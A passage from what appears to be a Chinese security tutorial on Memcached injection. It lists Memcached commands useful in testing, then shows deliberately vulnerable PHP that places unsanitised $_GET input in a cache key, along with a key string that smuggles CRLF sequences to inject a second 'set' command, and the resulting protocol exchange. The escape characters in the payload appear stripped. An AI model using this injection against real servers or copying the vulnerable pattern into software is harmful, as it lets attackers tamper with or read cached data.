 lru_crawler
</li>
<li>
统计操作(stats items, slabs, cachedump)
</li>
其他操作 (version, flush_all, quit)

下面给出几个安全测试中有用的命令


|get|读某个值|get mykey
|set|强制设置某个键值|set mykey 0 60 5
|add|添加新键值对|add newkey 0 60 5
|replace|覆盖已经存在的key|replace key 0 60 5
|flush_all|让所有条目失效|flush_all
|stats|打印当前状态|stats
|stats malloc|打印内存状态|stats malloc
|version|打印Memcached版本|version

stats cachedump 读取内存中存储的条目

<br>

**0x03 Memcached代码实现**

部署好Memcached之后,一个调用Memcached的php代码是这样的。

```
&lt;?php    
$m = new Memcached();     
$m-&gt;set("prefix_".$_GET[‘key’],"data");
```

为了体现漏洞的产生,我想这样写

```
&lt;?php    
$m = new Memcached();    
$m-&gt;addServer('localhost', 11211);    
$m-&gt;set("key1 0 0 1rn1rnset injected 0 3600 10rn1234567890rn","1234567890",30);    
?&gt;
set("key1 0 0 1rn1rnset injected 0 3600 10rn1234567890rn","1234567890",30)
```

是的,这里也就能看到问题。

执行刚刚的命令的时候,server和client的通信是这样的(&gt;表示发送到Memcached ,&lt;表示从Memcached的返回)

```
&gt; set key 0 0 1
&gt; 1
&lt; STORED
&gt; set injected 0 3600 10
&gt; 1234567890
&lt; STORED
&gt; 0 30 10
&lt; ERROR
&gt; 1234567890
&lt; ERROR
```
